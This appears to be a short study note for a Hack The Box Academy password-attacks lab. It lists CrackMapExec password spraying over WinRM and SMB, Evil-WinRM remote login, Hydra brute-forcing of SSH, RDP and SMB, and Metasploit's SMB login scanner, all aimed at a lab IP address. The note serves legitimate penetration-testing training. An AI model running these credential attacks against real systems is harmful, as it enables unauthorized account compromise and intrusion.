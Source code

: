 https://academy.hackthebox.com/storage/resources/Password-Attacks.zip

[[SMB]] [[LDAP]] [[mssql]]
##### SMB, LDAP, MSSQL, etc.
https://github.com/byt3bl33d3r/CrackMapExec

```shell
sudo apt-get -y install crackmapexec

crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

```shell
crackmapexec --verbose smb 10.129.42.197 -u "user" -p "password" --shares
```

#### Evil-WinRM
```
sudo gem install evil-winrm
evil-winrm -i 10.129.42.197 -u user -p password
```


```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list rdp://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list smb://10.129.42.197
```

##### SMB via metasploit

```shell
msfconsole -q
use auxiliary/scanner/smb/smb_login
set PASS_FILE password.list
set USER_FILE username.list
set RHOST STMIP
run
```